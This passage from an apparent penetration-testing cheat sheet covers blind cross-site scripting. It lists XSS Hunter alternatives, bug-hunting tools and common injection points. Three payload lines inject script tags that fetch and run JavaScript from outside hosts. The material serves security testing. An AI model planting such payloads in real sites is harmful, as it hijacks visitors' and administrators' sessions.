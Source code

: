 ```html
    }, 2000);
}
</script>
</html>
```

## Blind XSS

### XSS Hunter

> XSS Hunter allows you to find all kinds of cross-site scripting vulnerabilities, including the often-missed blind XSS. The service works by hosting specialized XSS probes which, upon firing, scan the page and send information about the vulnerable page to the XSS Hunter service.

XSS Hunter is deprecated, it was available at [https://xsshunter.com/app](https://xsshunter.com/app).

You can set up an alternative version

- Self-hosted version from [mandatoryprogrammer/xsshunter-express](https://github.com/mandatoryprogrammer/xsshunter-express)
- Hosted on [xsshunter.trufflesecurity.com](https://xsshunter.trufflesecurity.com/)

```xml
"><script src="https://js.rip/<custom.name>"></script>
"><script src=//<custom.subdomain>.xss.ht></script>
<script>$.getScript("//<custom.subdomain>.xss.ht")</script>
```

### Other Blind XSS tools

- [Netflix-Skunkworks/sleepy-puppy](https://github.com/Netflix-Skunkworks/sleepy-puppy) - Sleepy Puppy XSS Payload Management Framework
- [LewisArdern/bXSS](https://github.com/LewisArdern/bXSS) - bXSS is a utility which can be used by bug hunters and organizations to identify Blind Cross-Site Scripting.
- [ssl/ezXSS](https://github.com/ssl/ezXSS) - ezXSS is an easy way for penetration testers and bug bounty hunters to test (blind) Cross Site Scripting.

### Blind XSS endpoint

- Contact forms
- Ticket support
- Referer Header
    - Custom Site Analytics
    - Administrative Panel logs
- User Agent
    - Custom Site Analytics
    - Administrative Panel logs
- Comment Box
    - Administrative Panel

### Tips
